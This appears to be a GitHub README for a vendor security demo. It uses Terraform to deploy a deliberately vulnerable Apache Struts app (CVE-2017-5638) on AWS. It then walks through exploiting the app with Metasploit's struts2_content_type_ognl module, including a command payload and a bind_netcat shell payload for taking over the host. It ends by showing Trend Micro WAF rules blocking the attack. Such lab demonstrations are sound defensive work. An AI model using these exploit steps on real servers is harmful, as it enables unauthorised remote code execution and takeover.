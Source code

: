 ##Overview
This demo is created to exploit apache struts with CVE-2017-5638. It will deploy vulnerable struts version with sample demo application on AWS.
Demo is created for 3 AWS regions (Ohio, Oregon, Ireland) with default Ohio region setup. AMI images used in Demo is available in these 3 regions as public AMIs.
In order to setup the environment few hardcoded modifications need to be done on terraform code.

 
##Pre-requisites:
- AWS IAM account with administrator access
- Terraform need to be deployed on user's system with basic configuration
- Metasploit with latest msfupdate in attacker machine.
- if you are setting uo victim outside AWS then you can use following blog post for victim setup.
  http://blog.ud64.com/2017/09/apache-struts-with-cve-2017-5638-set-up.html

NOTE: if in case tomcat service is not started. you can login to EC2 instance and start the same using "#sudo $CATALINA_HOME/bin/startup.sh"

##Hardcoded modifications
- user_data.sh is a bootstrap script which can be modify to add Trend Micro DS agent configuration  
- EC2 Keys are stored in /Scripts directory. you can use the .pem or .ppk to login to EC2 instance over the internet.

##Generic steps for victim setup:
#step 1
Deploy terraform template on AWS using terraform plan and terraform apply.
# terraform init
# terraform apply

#2
Victim domain name will be available in terraform apply output. we have to use the same during our attack 
We have configured proxy with ELB to convert port 8080 to 80.  

#3
Application URL is configured as struts2_2.3.15.1-showcase/showcase.action

#4
We can use generic payload for the demo.

set PAYLOAD cmd/unix/generic
set CMD "touch /tmp/hackedsystemexec64"
set PAYLOAD cmd/unix/bind_netcat


##Exploit demo execution steps:
#Step 1:Open metasploit in attacker system 

#step 2: search for the CVE-2017-5638
msf>search CVE-2017-5638

#step 3: use the exploit
msf> use exploit/multi/http/struts2_content_type_ognl

#step 4: configure the application paramenter in exploit options
msf exploit> show options
msf exploit> set RHOST <Domain name of cloudfront> 
msf exploit> set RPORT 80
msf exploit> set TARGETURI struts2_2.3.15.1-showcase/showcase.action
msf exploit> show options


#step 5: configure payload
msf exploit> set PAYLOAD cmd/unix/generic
msf exploit> show payload
msf exploit> set CMD "touch /tmp/hackedsystemexec64"
msf exploit> exploit

Also taking over the system can be possible
msf exploit> set PAYLOAD cmd/unix/bind_netcat
msf exploit> exploit

cmd> id
cmd> whoami


#step 6: SSH to public ip of victim server and show the affected file



Complete!!!.. now show the protection with Deep security and/or Trend Micro managed WAF rules. 

---------------------------Protection with Trendmicro managed WAF rules or with DS---------

NOW, Login to AWS WAF portal and click on Web ACLs 
-> select Trendmicro-Managed-Rule-ACL
-> select rules tab in right side
-> edit ACL and select Trendmicro managed WAF rule (Apache and Ngnix)
-> now run the exploit again. it should fail
